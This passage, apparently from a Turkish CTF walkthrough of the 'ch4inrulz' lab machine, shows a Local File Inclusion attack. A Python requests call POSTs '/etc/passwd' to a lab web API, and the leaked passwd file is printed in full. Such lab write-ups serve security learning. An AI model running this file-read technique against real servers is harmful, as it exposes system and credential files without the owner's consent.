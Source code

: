 ![ch4inrulz-2](resimler/ch4inrulz:-1.0.1/ch4inrulz-2.png)

Bende burada Local File Inclusion açığının bulunduğunu düşünerek [buradaki github sayfasındaki](https://github.com/lucyoa/ctf-wiki/tree/master/web/file-inclusion) tüm yöntemleri denedim. Buradan bir sonuca ulaşamadım.

Uzunca uğraştan ve araştırmadan sonra biraz yardım ile POST metodu kullanmam gerektiğini öğrendim. Bu işlem için python kullandım.

```text
root@kali:~# python3
Python 3.6.7 (default, Oct 22 2018, 11:32:17)
[GCC 8.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> r = requests.post("http://192.168.56.102:8011/api/files_api.php", data={"file": "/etc/passwd"})
>>> print(r.text)

<head>
  <title>franks website | simple website browser API</title>
</head>

root:x:0:0:root:/root:/bin/bash
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```